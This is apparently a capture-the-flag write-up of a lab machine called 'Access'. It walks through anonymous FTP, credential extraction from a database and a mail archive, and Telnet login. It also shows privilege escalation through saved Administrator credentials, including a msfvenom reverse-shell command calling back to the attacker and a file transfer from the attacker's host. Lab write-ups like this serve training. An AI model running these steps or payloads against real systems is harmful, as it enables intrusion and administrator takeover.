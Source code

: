 # Access

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Running the full port scan, I found that ports 21, 23 and 80 were open.&#x20;

### (21) FTP

FTP is configured to allow anonymous login and I found `backup.mdb`&#x20;

To obtain the .mdb file, I changed the FTP transfer mode to binary using the command `bin` and downloaded the file using `get backup.mdb`

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

I was able to view the tables using `mdb-tables backup.mdb`

The `auth_user` table caught my attention.

Using `mdb-export backup.mdb auth_user`, I found the following credentials.&#x20;

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Furthermore, I found `Access Control.zip` in the FTP server.&#x20;

Trying to unzip the file, I obtained `unsupported compression method 99`. Searching online for solution, I decided to use `7z` to unzip the folder.

Using the command `7z x Access\ Control.zip`, I found that it requires a password to unzip.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Trying the password obtained from `auth_user` table (access4u@security), I managed to successfully unzip the folder.

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

A file named `Access Control.pst` was being extracted. To view the contents of a `.pst` file, I used the command `readpst 'Access Control.pst`

Opening the email up, I found the credentials: `security:4Cc3ssC0ntr0ller`

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### (23) Telnet

I managed to login using the credentials `security:4Cc3ssC0ntr0ller`

Found the user flag

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

To show the currently stored credentials, use the command `cmdkey /list`

I obtained the following:

```
Target: Domain:interactive=ACCESS\\Administrator
                                                Type: Domain Password
User: ACCESS\\Administrator
```

It means that the Administrator credentials were stored in the target which allows the attackers to run commands impersonating the Administrator.

I generated a reverse shell payload using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o reverse.exe`&#x20;

Transferred from kali to victim (`copy \10.10.14.6\share\reverse.exe reverse.exe`)

Run the reverse.exe as administrator using `runas /savecred /user:ACCESS\Administrator reverse.exe`

And I obtained a shell as the administrator.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

